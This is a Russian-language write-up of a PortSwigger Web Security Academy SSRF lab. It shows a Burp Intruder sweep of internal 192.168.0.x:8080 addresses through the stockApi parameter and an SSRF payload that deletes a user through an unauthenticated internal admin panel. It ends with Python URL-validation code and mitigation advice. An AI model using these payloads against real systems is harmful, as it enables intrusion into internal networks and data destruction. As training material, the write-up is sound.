




# Lab: Basic SSRF against another back-end system

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SSRF  
**Сложность:** Apprentice  
**Дата:** 2025-07-17  

---

## TL;DR
Параметр `stockApi` не валидируется. Через перебор диапазона
`192.168.0.1-255:8080` в Burp Intruder найден внутренний сервер
с админ-панелью. SSRF-запросом через найденный IP удалён пользователь `carlos`.

---


## Отличие от предыдущей лабы

В прошлой лабе адрес был известен заранее (`localhost/admin`).
Здесь адрес неизвестен — только диапазон `192.168.0.X:8080`.
Нужно сначала найти нужный IP через перебор, и только потом атаковать.

---


## Описание уязвимости

Внутренние IP-адреса диапазона `192.168.0.0/24` недоступны из интернета —
но доступны изнутри корпоративной сети. Веб-сервер находится внутри
этой сети и может обращаться к любому адресу в диапазоне. SSRF позволяет
использовать сервер как прокси для сканирования и атаки внутренних ресурсов.

```
Интернет             Внутренняя сеть (192.168.0.0/24)
   Ты   →→→   [Веб-сервер] → 192.168.0.1  (роутер)
                            → 192.168.0.X:8080 (админка — неизвестно где)
                            → другие внутренние сервисы
```

---

## Разведка

### Шаг 1 — Перехват запроса Check stock

Нажала **Check stock** на странице товара, перехватила запрос в Burp
и отправила в **Intruder**:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

stockApi=http://stock.weliketoshop.net/product/123
```



### Шаг 2 — Настройка позиции для перебора

В Intruder заменила значение `stockApi` и выставила позицию
для перебора на последнем октете IP:

```
stockApi=http://192.168.0.§1§:8080/admin
```

Символы `§` указывают Intruder'у куда подставлять payload.



### Шаг 3 — Настройка payload

В разделе Payloads выбрала тип **Numbers** и настроила диапазон перебора:

```
From: 1
To:   255
Step: 1
```

Intruder отправит 255 запросов — по одному для каждого возможного IP.

### Шаг 4 — Запуск атаки и поиск результата

Запустила атаку. В результатах отсортировала по колонке **Status** —
нашла единственный запрос со статусом `200`.
Это и есть IP внутренней админ-панели.

```
192.168.0.1   → 500 (нет сервера)
192.168.0.2   → 500 (нет сервера)
...
192.168.0.X   → 200 ← нашли!
...
192.168.0.255 → 500 (нет сервера)
```



---

## Эксплуатация

### Шаг 5 — Удаление пользователя carlos

Отправила найденный запрос в Repeater.
Заменила путь на удаление `carlos`:

```
stockApi=http://192.168.0.133:8080/admin/delete?username=carlos
```

Сервер выполнил запрос от своего имени — внутренняя админка
не требует авторизации для запросов изнутри сети.



---

## Итог

Через SSRF удалось провести разведку внутренней сети и обнаружить
скрытый сервис на порту 8080. Внутренняя админ-панель не имела
авторизации — разработчики рассчитывали что снаружи к ней никто
не доберётся. SSRF сломал это допущение.

---

## Защита

```python
from urllib.parse import urlparse
import ipaddress

ALLOWED_HOSTS = ['stock.weliketoshop.net']

def is_safe_url(url: str) -> bool:
    parsed = urlparse(url)

    try:
        ip = ipaddress.ip_address(parsed.hostname)
        if (ip.is_private or
            ip.is_loopback or
            ip.is_link_local or
            ip.is_reserved):
            return False
    except ValueError:
        hostname = parsed.hostname
        if hostname in ('localhost', '0.0.0.0'):
            return False

    if parsed.hostname not in ALLOWED_HOSTS:
        return False

    if parsed.scheme not in ('http', 'https'):
        return False

    return True

# Использование:
if not is_safe_url(stock_api_url):
    abort(400, "Invalid URL")
```

Дополнительно:
- Выполнять внешние запросы через изолированный прокси
  без доступа к внутренней сети
- Внутренние сервисы должны требовать авторизацию независимо
  от IP источника — нельзя доверять только сетевому расположению
- Использовать allowlist доменов вместо blocklist IP —
  blocklist обходится через DNS rebinding